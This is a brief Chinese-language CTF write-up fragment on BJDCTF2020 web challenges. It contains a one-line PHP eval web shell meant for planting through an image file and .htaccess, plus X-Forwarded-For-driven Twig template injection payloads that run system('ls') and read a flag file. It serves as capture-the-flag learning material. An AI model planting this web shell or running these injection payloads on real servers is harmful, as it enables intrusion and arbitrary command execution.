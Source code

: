 图片马+.htaccess文件解析

get一种新的挂马方式

```
<script language='php'>eval($_POST[cmd]);</script> 
```

# [BJDCTF2020]The mystery of ip

## ssti

**PHP**可能存在**Twig模版注入漏洞**

### xff注入

打开页面 进入flag页面 发现提示

![在这里插入图片描述](img/72973b03e737b882008029f2636feeb1.png)

根据flag页面显示ip想到可能是 xff注入

抓包测试一下 把xff 改为1

发现ip回显果然为一 存在xff注入

PHP可能存在模板注入，因此测试 {{7*7}}

回显49 存在 ssti

因此开始命令执行

执行命令{{system(‘ls’)}}

发现flag.php

{{system(‘cat /flag.php’)}}

get flag

# [BJDCTF2020]ZJCTF，不过如此
